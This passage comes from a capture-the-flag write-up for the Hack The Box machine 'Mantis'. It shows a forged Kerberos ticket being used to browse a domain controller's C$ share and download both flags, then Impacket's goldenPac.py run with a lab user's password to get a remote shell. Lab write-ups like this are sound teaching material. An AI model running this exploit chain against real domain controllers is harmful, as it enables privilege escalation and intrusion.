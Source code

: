 
This creates a file, `TGT_james@htb.local.ccache`. I’ll copy this into `/tmp`
where it is used:

    
    
    root@kali# cp TGT_james@htb.local.ccache /tmp/krb5cc_0
    

### Filesystem Access

Now I have access to the entire filesystem:

    
    
    root@kali# smbclient -W htb.local //mantis/c$ -k
    Try "help" to get a list of possible commands.
    smb: \> dir
      $Recycle.Bin                      DHS        0  Fri Sep  1 10:19:03 2017
      Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
      inetpub                             D        0  Fri Sep  1 09:41:09 2017
      pagefile.sys                      AHS 2146951168  Wed Sep  2 16:33:23 2020
      PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
      Program Files                      DR        0  Sat Dec 23 22:28:26 2017
      Program Files (x86)                DR        0  Fri Sep  1 14:28:51 2017
      ProgramData                        DH        0  Fri Sep  1 09:16:24 2017
      Recovery                          DHS        0  Fri Sep  1 01:39:12 2017
      System Volume Information         DHS        0  Thu Aug 31 20:02:33 2017
      Users                              DR        0  Fri Sep  1 10:19:01 2017
      Windows                             D        0  Sat Dec 23 22:31:49 2017
    
                    5480959 blocks of size 4096. 288821 blocks available
    

I can grab both flags:

    
    
    smb: \> get Users\james\desktop\user.txt
    getting file \Users\james\desktop\user.txt of size 32 as Users\james\desktop\user.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
    
    smb: \> get Users\administrator\desktop\root.txt
    getting file \Users\administrator\desktop\root.txt of size 32 as Users\administrator\desktop\root.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
    

### Shell

Impacket has a script, `goldenPac.py` which will do all of this and return a
shell:

    
    
    root@kali# goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
    
    [*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
    [*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
    [*] Attacking domain controller mantis.htb.local
    [*] mantis.htb.local found vulnerable!
    [*] Requesting shares on mantis.....
    [*] Found writable share ADMIN$
    [*] Uploading file IGiaSrqf.exe
    [*] Opening SVCManager on mantis.....
    [*] Creating service jAFc on mantis.....
    [*] Starting service jAFc.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    